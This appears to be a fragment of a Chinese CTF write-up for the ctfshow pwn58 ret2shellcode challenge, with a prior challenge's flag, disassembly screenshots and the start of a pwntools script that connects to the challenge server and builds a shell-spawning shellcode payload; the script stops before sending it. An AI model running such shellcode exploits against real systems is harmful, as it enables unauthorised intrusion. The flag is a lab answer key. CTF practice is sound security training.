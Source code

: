 

flag：

```
ctfshow{dc7cf559-6e2a-4a1d-aa9f-edd6b160b7bf}
```



## ==58. pwn58（ret2shellcode&&32bit）==

[不负韶华](https://vvwwvv.cn/2023/10/21/pwn/刷题/ctfshow/58-68/)

32位 无限制

![image-20241102164121132](../_media/image-20241102164121132.png)



main反汇编不成功，直接看汇编代码

![image-20241102171937913](../_media/image-20241102171937913.png)

直接attach it，就是ctfshow函数

![image-20241102172048556](../_media/image-20241102172048556.png)







```python
# -*- coding: utf-8 -*-
from pwn import *
from LibcSearcher import *
context(arch='i386',os='linux',log_level='debug')

ip = "pwn.challenge.ctf.show"
port = 28116
elf = ELF('./pwn')

r = remote(ip,port)

payload = asm(shellcraft.sh())

```